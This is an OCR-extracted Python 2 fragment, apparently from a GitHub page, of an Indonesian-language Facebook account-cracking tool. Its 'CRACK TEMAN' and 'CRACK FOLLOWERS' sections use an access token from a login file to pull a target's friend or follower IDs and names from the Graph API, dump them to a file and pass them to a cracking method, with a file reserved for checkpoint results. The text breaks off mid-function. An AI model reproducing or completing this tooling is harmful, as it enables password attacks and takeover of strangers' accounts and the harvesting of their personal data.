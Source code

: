 def cp():
        try:
                cp=open('Cp.txt','r').read()
		print('\n'+cp)
	except Exception as e:
		exit('[x] Hasil Cp Tidak Ada')
##### CRACK TEMAN #####
def teman():
        try:
                toket=open('login.txt','r').read()
        except IOError:
		print('[x] Token Invalid')
                os.system('rm -rf login.txt')
                time.sleep(0.01)
                login()
        try:
		limit = '5000'
                file = 'rozhak.json'
		print('──────────────────────────────────────────')
		print('[•] Nama File : '+file)
                try:
                   r=requests.get("https://graph.facebook.com/me/friends?access_token="+toket+"&limit="+limit)
                except KeyError:
			print ('[x] Tidak Ada Teman')
			raw_input("[Kembali]")
                        menu()
                id = []
                z=json.loads(r.text)
                qq = ('teman.txt').replace(" ","_")
                ys = open(qq , 'w')#.replace(" ","_")
                for a in z['data']:
                        id.append(a['id']+"<=>"+a['name'])
                        ys.write(a['id']+"<=>"+a['name']+'\n')
                        print("\r[•] Dump %s ID\r"%(str(len(id)))),;sys.stdout.flush();time.sleep(0.007)
                ys.close()
                os.rename(qq,file)
		print("\r[•] Total ID : %s         "%(len(id)))
		print('──────────────────────────────────────────')
                metode()

        except requests.exceptions.ConnectionError:
		exit('[x] Koneksi Error')
##### CRACK FOLLOWERS #####
def followers():
        try:
                toket=open('login.txt','r').read()
        except IOError:
		print('[x] Token Invalid')
                os.system('rm -rf login.txt')
                time.sleep(0.01)
                login()
        try:
		print('──────────────────────────────────────────')
                idt = raw_input("[•] ID Profil : ")
                limit = '5000'
                file = 'rozhak.json'
		print('[•] Nama File : '+file)
                try:
                        jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
                        op = json.loads(jok.text)
                        #print("[•] Nama : "+op["name"])
                except KeyError:
			print('[x] ID Profil Tidak Ada')